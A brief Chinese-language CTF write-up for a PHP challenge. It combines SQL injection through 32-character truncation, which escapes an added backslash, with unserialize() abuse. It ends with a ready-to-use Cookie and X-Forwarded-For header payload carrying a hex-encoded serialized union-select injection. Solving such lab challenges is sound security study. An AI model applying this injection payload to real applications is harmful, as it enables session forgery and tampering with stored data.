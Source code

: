 此题是来自于一个某一个小众的CTF比赛，但是题目还是非常的好。

本题目考察的地方有几点：
1. SQL的截断注入逃逸出`\`
2. 反序列化漏洞

其中最为关键的地方是在于参数`$this->session_id`我们是可控的，就可以进行SQL注入。要保证能够顺利调用`load_session()`函数执行SQL语句，我们需要绕过
```PHP
$this->gen_session_key($tmp_session_id) == substr($this->session_id, 32);

function gen_session_key($session_id)
{
    static $ip = '';

    if ($ip == '')
    {
        $ip = substr($this->_ip, 0, strrpos($this->_ip, '.'));
    }

    return sprintf('%08x', crc32($ip . $session_id));
}
```
此时需要利用到代码中的截断32位字符的方法，得到`\`。之后代码通过反序列化得到数据。`$GLOBALS['_SESSION']  = unserialize($session['data']);`。那么我们需要将我们的数据序列化之后通过`union`的方式传入，但是考虑到数据经过了`addslashes()`，不能直接传入反序列化的内容，可以考虑传入十六进制的内容。

那么最后的writeup就是：
```
Cookie: SESSID=QYHuItTPcsD1yj4npiRWGvChx0FLBw6%002ad2457
X-Forwarded-For: /**/union select 0x613a323a7b733a343a226e616d65223b733a363a22686168616861223b733a353a2273636f7265223b733a333a22313032223b7d #
```

